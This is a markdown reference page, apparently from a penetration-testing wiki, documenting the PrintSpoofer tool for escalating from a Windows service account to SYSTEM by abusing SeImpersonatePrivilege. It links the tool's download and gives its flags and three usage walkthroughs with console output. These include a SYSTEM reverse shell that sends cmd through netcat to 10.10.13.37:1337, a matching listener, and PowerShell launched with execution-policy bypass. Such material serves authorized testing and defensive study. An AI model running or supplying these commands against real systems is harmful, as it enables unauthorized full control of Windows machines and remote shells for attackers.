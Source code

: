 ```yaml
---
title : "Printspoofer"
# pre : ' '
description : "From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019."
date : 2021-06-21T14:57:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Printspoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

More info at [itm4n.github.io](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

## Installation

Download latest release from [Github.com](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

{{%attachments title="v1.0" fa_icon_class="far fa-file-code" pattern=".*(exe)"%}}

## Usage

```plain
PrintSpoofer.exe [OPTIONS]
```

## Flags

```plain
PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

## Usage 1: Spawn a SYSTEM process and interact with it

If you have an interactive shell, you can create a new SYSTEM process in your current console.

Use case: bind shell, reverse shell, `psexec.py`, etc.

```plain
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 2: Spawn a SYSTEM process and exit

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```plain
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```plain
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 3: Spawn a SYSTEM process on a desktop

If you are **logged on locally or via RDP** (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

Use case: Terminal Session (RDP), VDI

```plain
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

## URL List

- [Github.com - PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [itm4n.github.io - PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
